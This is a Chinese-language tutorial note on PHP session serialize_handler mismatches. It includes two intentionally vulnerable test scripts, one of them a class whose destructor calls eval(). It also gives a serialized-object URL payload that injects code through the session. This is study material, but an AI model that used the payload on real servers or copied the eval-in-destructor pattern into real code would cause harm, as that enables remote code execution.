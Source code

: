# Session的不同解析方式

## Session的不同解析方式

### 参考文章

- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

### 分析
PHP中的Session的实现是没有的问题，在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，才外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值

![](../images/19-7-10_PHP_Session不同解析方式_1.png)
在php中，`session.serialize_handler`可以通过`ini_set('session.serialize_handler','xxxxx')`来设置。攻击人，如果通过`ini_set`使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。

### 测试代码

**index.php**

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问

```php
http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}
```

然后访问

```php
http://127.0.0.1/us2.php
```


![](../images/19-7-10_PHP_Session不同解析方式_2.png)